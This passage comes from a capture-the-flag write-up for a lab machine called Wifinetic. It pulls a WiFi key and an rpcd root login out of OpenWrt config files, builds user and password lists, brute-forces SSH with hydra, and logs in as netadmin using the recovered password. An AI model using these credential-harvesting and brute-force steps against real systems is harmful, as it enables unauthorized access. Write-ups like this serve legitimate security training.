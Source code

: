 ```
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'

```

#### RPCD

Here we see another potential password we might as well add to our `passwords.txt` file.

```
config rpcd
	option socket /var/run/ubus/ubus.sock
	option timeout 30

config login
	option username 'root'
	option password '$p$root'
	list read '*'
	list write '*'

```

We check all the other files in here as well, but they did not lead anywhere.

### Hydra into SSH

We have built the `potential_usernames.txt` and `password.txt` files, and we can now use those to attempt to bruteforce the ssh port.

```console
toasty@par$ cat potential_users.txt 
olivia.walker17@wifinetic.htb
samantha.wood93@wifinetic.htb
ftp
netadmin
toasty@par$ cat passwords.txt 
VeRyUniUqWiFIPasswrd1!
$p$root
toasty@par$ hydra -L potential_users.txt -P passwords.txt ssh://10.10.11.247
.. SNIP
[DATA] attacking ssh://10.10.11.247:22/
[22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
1 of 1 target successfully completed, 1 valid password found
.. SNIP
```

We got a hit! `netadmin:VeRyUniUqWiFIPasswrd1!`

### SSH

Let's verify we have access and try to `ssh` in. (Note: I am only using `sshpass` to show in output that the password we found is working, this is not a secure practice)

```console
toasty@par$ sshpass -p VeRyUniUqWiFIPasswrd1! ssh netadmin@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

.. SNIP
Last login: Thu Sep 21 15:31:47 2023 from 10.10.14.128
netadmin@wifinetic:~$ id
uid=1000(netadmin) gid=1000(netadmin) groups=1000(netadmin)
```
